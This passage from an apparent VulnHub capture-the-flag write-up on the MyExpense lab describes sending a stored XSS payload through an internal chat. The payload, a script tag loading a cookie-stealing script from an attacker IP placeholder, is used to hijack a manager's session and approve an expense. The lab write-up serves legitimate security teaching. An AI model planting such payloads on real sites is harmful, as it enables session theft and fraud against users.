 
The status changed to "submitted", indicating it needed manager approval. Samuel's profile or organizational chart revealed his manager was Manon Riviere.

![alt text](../assets/images/vulnhub-myexpense-writeup/myexpense20.png)

To gain access to Manon's account, the internal chat feature was used to send another XSS payload. This payload referenced an external script (`script.js`) hosted on the attacker machine, designed to steal cookies.

<script src="http://<ATTACKER_IP>/script.js"></script>

![alt text](../assets/images/vulnhub-myexpense-writeup/myexpense21.png)

![alt text](../assets/images/vulnhub-myexpense-writeup/myexpense22.png)

When Manon viewed the chat, the script executed, sending her session cookie to the attacker's Python listener.

![alt text](../assets/images/vulnhub-myexpense-writeup/myexpense23.png)

The captured cookie was used to hijack Manon Riviere's session. From her account, Samuel's expense report was located and validated.
